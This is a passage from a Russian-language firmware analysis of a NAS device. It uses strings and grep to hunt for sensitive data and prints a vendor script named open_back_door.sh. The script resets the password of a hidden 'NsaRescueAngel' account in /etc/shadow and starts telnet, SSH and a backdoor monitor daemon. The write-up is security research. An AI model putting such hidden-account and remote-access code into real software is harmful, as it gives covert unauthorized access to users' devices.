 Самым простым способом поиска чувствительной информации являются стандартные для Linux-машин утилиты *strings* и *grep*.
Степень вовлеченности в процесс зависит от самого исследователя. Зачастую файловая система представляет большой объем данных, содержащий как стандартный набор файлов и утилит, специфичных для Linux, так и сторонние библиотеки и ПО.

```bash
kalosof@ubuntu:/mnt/nas326$ grep -ri "backdoor" .
Binary file ./usr/lib/python2.7/hmac.pyc matches
Binary file ./usr/local/apache/cgi-bin/remote_help-cgi matches
./usr/local/btn/open_back_door.sh:BACKDOOR_KEY=`/sbin/makekey`
./usr/local/btn/open_back_door.sh:BACKDOOR_PWD=`/sbin/makepwd $BACKDOOR_KEY`
./usr/local/btn/open_back_door.sh:echo $BACKDOOR_PWD | sed -e 's/\//\\\//g' > /tmp/wkdhfwe0f9e9fujfkef
./usr/local/btn/open_back_door.sh:BACKDOOR_PWD=`cat /tmp/wkdhfwe0f9e9fujfkef`
./usr/local/btn/open_back_door.sh:cat /etc/shadow.bak  | sed -e 's/^NsaRescueAngel\:[^\:]*\:/NsaRescueAngel:'$BACKDOOR_PWD':/g'> /etc/shadow
./usr/local/btn/open_back_door.sh:	echo "[BackdoorOpen] telnet daemon is NOT running."
./usr/local/btn/open_back_door.sh:	echo "[BackdoorOpen] telnet daemon is running."
./usr/local/btn/open_back_door.sh:	echo "[BackdoorOpen] backdoor monitor daemon is NOT running."
./usr/local/btn/open_back_door.sh:	echo "[BackdoorOpen] backdoor monitor daemon is running."
grep: ./lost+found: Permission denied
./etc/init.d/rcS2:#sshd backdoor
```

Поиск по ключевому слову "backdoor" вернул несколько совпадений. Откроем скрипт `./usr/local/btn/open_back_door.sh` в текстовом редакторе.

```bash
#!/bin/sh
BACKDOOR_KEY=`/sbin/makekey`
BACKDOOR_PWD=`/sbin/makepwd $BACKDOOR_KEY`

echo $BACKDOOR_PWD | sed -e 's/\//\\\//g' > /tmp/wkdhfwe0f9e9fujfkef
BACKDOOR_PWD=`cat /tmp/wkdhfwe0f9e9fujfkef`

IS_SERVERBOX=`mrd_fbits | grep ^"D9 01"`
IS_STG220=`mrd_fbits | grep ^"DE 01"`
cp /etc/shadow /etc/shadow.bak
cat /etc/shadow.bak  | sed -e 's/^NsaRescueAngel\:[^\:]*\:/NsaRescueAngel:'$BACKDOOR_PWD':/g'> /etc/shadow
rm -f /etc/shadow.bak

#sshd
if [ "${1}" == "sshd" ]; then
	chmod 0700 /etc/ssh/*
	start-stop-daemon -b -S -N 5 -x /sbin/sshd -- -p 22
	exit 0
fi
DaemonRunning=`ps | grep "/sbin/telnetd" | grep -v "grep"`

if [ "${DaemonRunning}" == "" ]; then
	echo "[BackdoorOpen] telnet daemon is NOT running."
	/sbin/telnetd
else
	echo "[BackdoorOpen] telnet daemon is running."
fi

DaemonRunning=`ps | grep "/sbin/monitord" | grep -v "grep"`
if [ "${DaemonRunning}" == "" ]; then
	echo "[BackdoorOpen] backdoor monitor daemon is NOT running."
	/sbin/start-stop-daemon -b -S -N 5 -x /sbin/monitord
else
	echo "[BackdoorOpen] backdoor monitor daemon is running."
fi
```